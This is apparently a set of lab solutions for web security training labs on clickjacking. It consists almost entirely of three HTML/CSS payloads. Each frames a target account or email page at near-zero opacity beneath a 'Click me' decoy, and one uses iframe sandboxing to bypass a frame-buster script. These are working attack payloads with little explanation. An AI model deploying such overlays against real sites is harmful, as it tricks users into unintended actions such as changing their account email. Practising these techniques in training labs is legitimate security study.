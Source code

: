 ## Clickjacking

### Basic clickjacking with CSRF token protection

TODO
```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.0000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:310px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acb51fbc1faf3227801a430500410078.web-security-academy.net/account"></iframe>
```

### Clickjacking with form input data prefilled from a URL parameter

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:420px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://aca41f091f5bb2d980ee3bc400f600de.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

### Clickjacking with a frame buster script

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:400px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://ac541f331f3b3af8801a0f9a009f0035.web-security-academy.net/email?email=foo@bar.com"></iframe>
```
